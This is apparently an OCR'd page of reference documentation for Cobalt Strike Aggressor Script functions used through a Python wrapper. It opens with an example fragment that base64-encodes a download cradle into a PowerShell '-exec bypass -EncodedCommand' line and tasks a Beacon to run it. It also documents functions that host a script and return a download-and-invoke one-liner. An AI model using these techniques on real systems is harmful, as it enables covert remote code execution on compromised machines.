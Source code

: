         # encode our download cradle AND cmdlet+args we want to run
        $runme  = base64_encode( str_encode($cradle . $args, "UTF-16LE") );

        # Build up our entire command line.
        $cmd    = " -nop -exec bypass -EncodedCommand \" $+ $runme $+ \"";

        # task Beacon to run all of this.
        btask($1, "Tasked beacon to run: $args", "T1086");
        beacon_execute_job($1, "powershell", $cmd, 1);
    }


## beacon_host_script
```python
beacon_host_script(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Locally host a PowerShell script within Beacon and return a short script that will download and invoke this script. This function is a way to run large scripts when there are constraints on the length of your PowerShell one-liner.
    Arguments
    $1 - the id of the Beacon to host this script with.
    $2 - the script data to host.
    Returns
    A short PowerShell script to download and evaluate the script when run. How this one-liner is used is up to you!
    Example
    alias test {
        local('$script $hosted');
        $script = "2 + 2";
        $hosted = beacon_host_script($1, $script);

        binput($1, "powerpick $hosted");
        bpowerpick($1, $hosted);
    }


## beacon_ids
```python
beacon_ids(*args, fork=None, sync=True)
```

Documentation from https://www.cobaltstrike.com/aggressor-script/functions.html:

    Get the ID of all Beacons calling back to this Cobalt Strike team server.
    Returns
    An array of beacon IDs
    Example
    foreach $bid (beacon_ids()) {
        println("Bid: $bid");
    }
